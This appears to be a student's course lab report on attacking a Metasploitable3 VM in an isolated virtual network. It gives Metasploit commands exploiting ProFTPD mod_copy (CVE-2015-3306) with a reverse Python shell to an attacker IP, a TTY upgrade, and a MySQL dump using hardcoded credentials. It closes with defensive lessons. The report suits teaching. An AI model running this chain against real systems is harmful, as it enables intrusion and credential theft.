








# Cybersecurity Demo: ProFTPD Exploitation and MySQL Plaintext Data Exfiltration

**Course:** Cybersecurity  
**University:** Università degli Studi di Trieste  
**Video Demo:** https://youtu.be/GFJoJC5dhOM

---

## 1. Introduction and Threat Model

This report details a multi-stage attack chain executed within a controlled sandbox environment. The infrastructure consists of a **Kali Linux** attacker instance and a **Metasploitable3 (Linux)** target, both segregated within a private virtual network (**VirtualBox NatNetwork**) to ensure complete isolation and bidirectional reachability.

In accordance with the course framework, the assessment is based on the following **Threat Model**:
* **Attacker Profile:** A Network Attacker positioned within the target's local subnet.
* **Initial Capabilities:** The adversary is completely **unauthenticated** (zero starting privileges, no legitimate accounts, no baseline credentials).
* **Objective:** Achieve Remote Command Execution (RCE) to compromise the server's perimeter and exfiltrate sensitive enterprise data, critically impacting the **Confidentiality** and **Integrity** of the system.

To provide an autonomous and significant variation from standard laboratory exercises (e.g., avoiding basic brute-forcing via Hydra), this demo exploits the logical interaction between two distinct network daemons: abusing an FTP server vulnerability to drop a payload that is subsequently executed by a Web Server.

## 2. Network Reconnaissance and Discovery

The operation begins in a black-box scenario. Following the **Discovery** tactic of the MITRE ATT&CK matrix, active devices in the local broadcast domain are mapped using an ARP sweep:

```bash
sudo arp-scan -l
```


Based on the standard VirtualBox NatNetwork architecture, the IP addresses `10.0.2.1` (host loopback interface) and `10.0.2.2` (NAT gateway router) are systematically excluded as structural virtualization infrastructure components. Consequently, the actual operational target host is uniquely identified at IP address `10.0.2.15`.

After confirming baseline logical layer-3 network reachability via ICMP ping validation, a comprehensive TCP port and service version validation scan is performed to fully enumerate the target machine's active network perimeter surface:

```bash
nmap -sV -p- 10.0.2.15
```


The comprehensive environment probe execution identifies multiple exposed application access endpoints. The core technical analysis focuses strictly on two specific unauthenticated exposed network daemons: **ProFTPD 1.3.5** running natively on control port 21, and an **Apache httpd 2.4.7** infrastructure web daemon handling traffic on standard HTTP port 80.

## 3. Initial Access and Shell Stabilization

The attack path progresses from reconnaissance to the **Initial Access** tactic (MITRE ATT&CK), specifically targeting the exposed FTP service via Metasploit Framework.

```bash
msfconsole
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 10.0.2.15
```

The selected module weaponizes **CVE-2015-3306**, a critical vulnerability residing in ProFTPD's `mod_copy` component. This flaw stems from an insecure default configuration where the `SITE CPFR` and `SITE CPTO` commands are exposed to unauthenticated remote clients. This design failure allows an adversary to execute arbitrary file copy commands across the target's underlying file system without providing valid system credentials, violating the fundamental principle of **Complete Mediation** (Saltzer and Schroeder).

To establish an interactive control channel, a Python-based reverse shell payload is configured:

```bash
set payload cmd/unix/reverse_python
```

Selecting a Python payload instead of a generic netcat execution ensures stability and prevents immediate session termination under Linux multi-threading process constraints. To configure the callback parameter (`LHOST`), a separate terminal panel is used to inspect the local network interfaces:

```bash
ip a
```

The local IP address is determined to be `10.0.2.3`. Returning to the Metasploit console, the listener and the target URI root paths are updated before launching the unauthenticated exploitation attempt:

```bash
set LHOST 10.0.2.3
set TARGETURI /
show options
exploit
```


As documented in the video demo, the initial execution terminates with a failure condition: `Failure copying PHP payload, directory not writable?`. This obstruction represents a standard real-world vulnerability management and asset context scenario (as highlighted in CVSS environmental assessments). The exploit module’s default configuration attempts to write the PHP payload into the standard Linux web root path `/var/www`. However, local system Access Control Lists (ACLs) restrict the write permissions of the `proftpd` daemon process over that specific folder.

To bypass this restriction and align the attack path with the actual operational environment of the target Ubuntu server, the destination directory is explicitly configured to the proper public web root:

```bash
set SITEPATH /var/www/html
exploit
```

The second execution succeeds. The ProFTPD daemon successfully copies the PHP payload into the web directory via the vulnerable module, and Metasploit subsequently triggers its remote execution via an HTTP request over port 80, spawning a reverse shell session.



### Shell Stabilization (TTY Upgrade)

The established connection drops the attacker into a raw, non-interactive shell socket. This interface lacks a standard pseudo-terminal (TTY) allocation, missing basic operational features like tab-completion, history tracking, or job control signals. To upgrade and stabilize the session, an interactive bash instance is spawned using the target's Python interpreter:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Following the TTY upgrade, process context commands are issued to determine the exact security boundaries of the compromised session:

```bash
whoami
id
```


The output reveals code execution under the identity of the `www-data` system service user account. This demonstrates a proper implementation of the **Least Privilege** principle at the operating system level: the web server process runs under a restricted daemon account rather than high-privileged root authority, containing the initial radius of the perimeter breach.

## 4. Credential Access and Data Exfiltration

Operating under the restricted `www-data` context, an attempt at vertical privilege escalation is made by enumerating available `sudo` capabilities:

```bash
sudo -l
```


The execution fails, prompting for the `www-data` password, which is unknown. This failure indicates that local administrative access is strongly protected and cannot be trivially acquired via default `sudo` misconfigurations.

Pivoting to the **Collection** and **Credential Access** tactics, the focus shifts to the application layer. By navigating the local web directory `/var/www/html`, the source code of a custom PHP application named `payroll_app.php` is identified and statically analyzed:

```bash
cat payroll_app.php
```


The static code review exposes a critical architectural flaw: the database connection strings are embedded directly within the application's source code in cleartext (`root` / `sploitme`). This practice of Hardcoded Credentials drastically lowers the effort required to compromise the backend database. Furthermore, the PHP script constructs SQL queries dynamically by concatenating unsanitized user input (`$_POST['username']`), creating a direct vector for SQL Injection (SQLi) vulnerabilities.

Capitalizing on the hardcoded credentials, authentication to the local instance of the MySQL daemon natively deployed on the target host (`127.0.0.1`) is successful. A lateral collection query is executed to dump the content of the `users` table residing within the `payroll` database:

```bash
mysql -h 127.0.0.1 -u root -p'sploitme' -e "SELECT * FROM payroll.users;"
```


The command execution successfully exfiltrates the complete list of system usernames alongside their respective operational passwords. The output demonstrates the ultimate severity of the attack: user passwords are functionally stored and retrieved in absolute **Plaintext**.

As discussed during the course lectures on Authentication and Password Storage, saving plaintext credentials represents a total defensive failure. In a mature environment, password storage mechanisms must employ robust, slow cryptographic hashing functions (e.g., *bcrypt*, *Argon2*) combined with unique, random per-user *salts*. Proper storage ensures that even if the primary boundary is breached (as demonstrated via ProFTPD) and the database is dumped, the exfiltrated credential material remains computationally infeasible to reverse and reuse.

---

## References and Sources

The design, lab setup, and deployment of this vulnerability demonstration were compiled using the following official documentation, vulnerability databases, and open-source intelligence (OSINT) resources:

1. **National Vulnerability Database (NVD) - CVE-2015-3306 Detail** Official security advisory and CVSS base score parameters for the ProFTPD `mod_copy` information disclosure and arbitrary file copy flaw.  
   Ref: [https://nvd.nist.gov/vuln/detail/CVE-2015-3306](https://nvd.nist.gov/vuln/detail/CVE-2015-3306)

2. **Rapid7 Metasploit Module Documentation** Technical specifications and usage guide for the `exploit/unix/ftp/proftpd_modcopy_exec` integration module.  
   Ref: [https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/)

3. **Rapid7 Metasploitable3 Open-Source Project** Source repository, build scripts, and environmental baseline details for the automated Metasploitable3 Linux target virtual appliance.  
   Ref: [https://github.com/rapid7/metasploitable3](https://github.com/rapid7/metasploitable3)

4. **Exploit-DB - ProFTPD 1.3.5 - 'mod_copy' Remote Command Execution** Public proof-of-concept (PoC) reference script exploring the unauthenticated execution vector via web-root payload injection.  
   Ref: [https://www.exploit-db.com/exploits/36742](https://www.exploit-db.com/exploits/36742)

5. **OWASP Top 10:2021 – Cryptographic Failures & Insecure Storage** Defensive architecture guidelines regarding the mitigation of cleartext credential persistence and plaintext application data exfiltration.  
   Ref: [https://owasp.org/Top10/A02_2021-Cryptographic_Failures/](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)

---

## AI Usage Disclosure

In compliance with academic integrity guidelines, the use of generative AI tools during the preparation of this project is disclosed as follows:

* **Drafting and Writing:** Large Language Models (LLMs) were used during the drafting phase of this report to refine English grammar, syntax, and academic sentence structure based on my initial notes and technical outline.
* **Technical Execution:** The laboratory setup and the actual live attack path shown in the video were executed entirely by me. AI assistants were utilized exclusively during the preparation phase to research specific command-line syntax, help troubleshoot configuration adjustments (such as diagnosing web directory write restrictions), and resolve conceptual questions. No interactive or automated AI tools were active during the live demonstration.